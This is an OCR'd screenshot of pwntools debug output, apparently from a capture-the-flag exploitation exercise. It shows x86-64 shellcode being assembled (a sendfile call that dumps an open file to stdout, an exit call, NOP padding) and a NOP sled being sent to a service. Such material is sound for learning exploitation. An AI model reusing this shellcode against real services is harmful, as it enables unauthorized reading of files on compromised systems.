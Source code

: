 ```shell
        /* call sendfile(1, 'rax', 0, 0x7fffffff) */
        mov r10d, 0x7fffffff
        mov rsi, rax
        push 40 /* 0x28 */
        pop rax
        push 1
        pop rdi
        cdq /* rdx=0 */
        syscall
[DEBUG] /sbin/as -64 -o /tmp/pwn-asm-e332noer/step2 /tmp/pwn-asm-e332noer/step1
[DEBUG] /sbin/objcopy -j .shellcode -Obinary /tmp/pwn-asm-e332noer/step3 /tmp/pwn-asm-e332noer/step4
[DEBUG] cpp -C -nostdinc -undef -P -I/usr/lib/python3.11/site-packages/pwnlib/data/includes /dev/stdin
[DEBUG] Assembling
    .section .shellcode,"awx"
    .global _start
    .global __start
    _start:
    __start:
    .intel_syntax noprefix
    .p2align 0
        /* exit(status=0) */
        xor edi, edi /* 0 */
        /* call exit() */
        push 60 /* 0x3c */
        pop rax
        syscall
[DEBUG] /sbin/as -64 -o /tmp/pwn-asm-l4rclyu_/step2 /tmp/pwn-asm-l4rclyu_/step1
[DEBUG] /sbin/objcopy -j .shellcode -Obinary /tmp/pwn-asm-l4rclyu_/step3 /tmp/pwn-asm-l4rclyu_/step4
[DEBUG] cpp -C -nostdinc -undef -P -I/usr/lib/python3.11/site-packages/pwnlib/data/includes /dev/stdin
[DEBUG] Assembling
    .section .shellcode,"awx"
    .global _start
    .global __start
    _start:
    __start:
    .intel_syntax noprefix
    .p2align 0
    nop
[DEBUG] /sbin/as -64 -o /tmp/pwn-asm-gyxdakhl/step2 /tmp/pwn-asm-gyxdakhl/step1
[DEBUG] /sbin/objcopy -j .shellcode -Obinary /tmp/pwn-asm-gyxdakhl/step3 /tmp/pwn-asm-gyxdakhl/step4
[DEBUG] cpp -C -nostdinc -undef -P -I/usr/lib/python3.11/site-packages/pwnlib/data/includes /dev/stdin
[DEBUG] Assembling
    .section .shellcode,"awx"
    .global _start
    .global __start
    _start:
    __start:
    .intel_syntax noprefix
    .p2align 0
    nop
[DEBUG] /sbin/as -64 -o /tmp/pwn-asm-k7b0o8nu/step2 /tmp/pwn-asm-k7b0o8nu/step1
[DEBUG] /sbin/objcopy -j .shellcode -Obinary /tmp/pwn-asm-k7b0o8nu/step3 /tmp/pwn-asm-k7b0o8nu/step4
[DEBUG] Received 0x34 bytes:
    b'Welcome to the fallout, we have a message for you >\n'
[DEBUG] Sent 0x9b bytes:
    00000000  90 90 90 90  90 90 90 90  90 90 90 90  90 90 90 90  │····│····│····│····│
```